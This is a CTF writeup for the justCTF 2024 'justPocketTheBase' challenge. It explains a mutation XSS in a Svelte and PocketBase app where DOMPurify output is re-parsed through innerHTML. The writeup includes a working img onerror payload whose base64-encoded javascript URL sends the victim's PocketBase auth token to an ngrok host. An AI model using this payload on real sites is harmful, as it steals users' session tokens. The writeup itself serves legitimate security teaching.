 ```yaml
---
layout: post
title: justCTF 2024 teaser justPocketTheBase web challenge writeup
subtitle: mXSS (Constant Suffering Syndrome)
mathjax: true
share-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
cover-img: https://github.com/user-attachments/assets/0eb50bf1-0969-4a75-a102-fd50f58b7c45
author: M411K
---
```


## justPocketTheBase ≈ 44 solves

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/1caba872-34a9-48f4-a5aa-80f069d78e2f)

This challenge took me some time, not because it was hard per-say, but because I've spent too much time focusing on stuff that wasn't vulnreable but seemed sus, things like pocketbase configuration setup, pocketbase file uploading naming normalization, I kept focusing on the side stories rather than the main story, but nonetheless every side quest gave me more insight on the technology used by the author, which is always good, espicially that I haven't had much exposure to pocketbase before now.

## Setup

The challenge uses pocketbase database in the backend, and svelte as the front-end framework responsible for communicating with the api's provided by pocketbase in the backend:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/8aeead11-29be-4a8b-85bb-8583021954d6)

## Finding the XSS

From the start it was clear that you had to find an XSS, you have the bot, the main application where every user can post "plant" photos with their title, it was the classic setup.

So setting up to find the XSS, this block of code stands up:

```javascript
<script>
	import { onMount } from 'svelte';
	import { pb } from '$lib';

	let blacklist = [
		'window',
		'document',
		'cookie',
		'fetch',
		'navigator',
		'sendbeacon',
		'+',
		'_',
		'script',
		'!',
		'"',
		'#',
		'%',
		"'",
		'(',
		')',
		'*',
		'+',
		',',
		'-',
		'/',
		':',
		'?',
		'@',
		'[',
		']',
		';'
	];
	let id = null;
	let plant = null;
	let isLoading = true;
	let title;

	onMount(async () => {
		const params = new URLSearchParams(window.location.search);
		id = params.get('id');
		try {
			plant = await pb.collection('plants').getOne(id);
		} catch (error) {
			window.location.href = '/';
		} finally {
			isLoading = false;
		}
		setTimeout(() => {
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
			try {
				if (blacklist.some((word) => safe.toLowerCase().includes(word))) {
					throw new Error('not safe!!!');
				}
				title.innerHTML = safe;
			} catch (err) {
				window.location.href = '/';
			}
		}, 100);
	});
</script>
```

Its in `routes/view-plant/+page.svelte` route, this routing scheme is specific to svelte, and manages how the `url/view-plant/id=x` will behave.

```javascript
			const sanitizedTitle = DOMPurify.sanitize(plant.title);
			const newTitleElement = document.createElement('div');
			newTitleElement.classList.add('title');
			newTitleElement.innerHTML = sanitizedTitle;
			const safe = newTitleElement.innerText;
```

The DOMPurify library was on a stable version and finding a 0-day in this labeled `easy` challenge was surely out-of-scope (although its comming in later challenges :haha:), but this way of sanitizing the title, creating an element with that content, then taking the innerText of the latter, then finally adding it to the title element that gonna be displayed to the user was all just over-engineered and opened the door for a mutation XSS (shortened as mXSS), where I will provide HTML entities in the title `&lt;` (`<`), `&gt;` (`>`) which are normally secure, so DOMpurify will not clear them off, but with the first div element, those html entities will be decoded, so when taking in them back and piping them to the legit title, they will be litterally treated as `<`, `>`, and we can create a html tags with them, so now its only a matter of crafting a payload wich is fairly easy, here is my final working payload:

`&lt;img src=1 onerror=location=atob\`amF2YXNjcmlwdDpmZXRjaCgnaHR0cDovLzIudGNwLmV1Lm5ncm9rLmlvOjEwMDMwLycrYnRvYShsb2NhbFN0b3JhZ2UuZ2V0SXRlbSgicG9ja2V0YmFzZV9hdXRoIikpLCB7IG1vZGU6ICduby1jb3JzJ30p\`&gt;`

the base64 is just:

```javascript
javascript:fetch('http://2.tcp.eu.ngrok.io:10030/'+btoa(localStorage.getItem(\"pocketbase_auth\")), { mode: 'no-cors'})
```

Surely after reporting my image, I get back the admin token in my flask server:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/bfa22b15-0358-466c-af62-dd39f808b330)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/cae7f544-21c7-4cc7-bbd7-908a440835d6)

By changing your token to the flag token, you get can view his uploaded image, and by applying exiftool to it, you find flag:

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/b037e1b7-2700-46e8-8809-845a23ef740f)

![image](https://github.com/mwlik/mwlik.github.io/assets/73129654/76b8be06-72c6-49fc-b17a-f287c3324a17)

And Here you go!: `justCTF{97603333-6596-43fe-aef8-a134c1cc11b4}`
